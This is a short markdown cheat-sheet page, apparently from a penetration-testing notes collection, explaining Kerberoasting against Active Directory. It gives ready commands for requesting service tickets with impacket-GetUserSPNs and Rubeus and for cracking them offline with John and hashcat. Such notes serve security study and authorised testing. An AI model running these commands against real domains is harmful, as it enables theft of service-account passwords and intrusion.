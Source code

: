 ```yaml
---
label: Kerberoasting
---
```


# Kerberoasting

When a user wants to access a resource hosted by a _Service Principal Name_ (SPN), the client requests a TGS (service ticket) that is generated by the DC. The TGS is then decrypted and validated by the application server, since it is encrypted via the password hash of the SPN. When requesting the TGS from the DC, no checks are performed to confirm whether the user has any permissions to access the service. These checks are performed as a second step only when connecting to the service itself. This means that we are able to request for TGS to any domain service (SPN), regardless of the actual permissions.

The TGS is encrypted using the SPN's password hash. Having TGS, we can try to crack it offline and recover the service account password. This is the _Kerberoasting_ attack.

> **NOTE**: Domain names should be kept in FQDN format!

Linux:

```bash
# Get list of kerberoastable users from DC
impacket-GetUserSPNs $domain_fqdn/$user:$pass -dc-ip $dc_ip

# Request TGS for kerberoastable users
impacket-GetUserSPNs $domain_fqdn/$user:$pass -dc-ip $dc_ip -request -outputfile $file

# Crack TGS using John
john --format=krb5tgs --wordlist=$wordlist $tgs_file

# Crack TGS using HashCat
hashcat -m 13100 $file $dictionary
```

> **IMPORTANT**: If `impacket-GetUserSPNs` throws the error "KRB_AP_ERR_SKEW(Clock skew too great)" the synchronization of the time of the Kali machine with the DC is required. We can use `ntpdate` or `rdate` to do so.

Windows:

```powershell
# Get kerberoastable users and save to file
.\Rubeus.exe kerberoast /outfile:$file
```
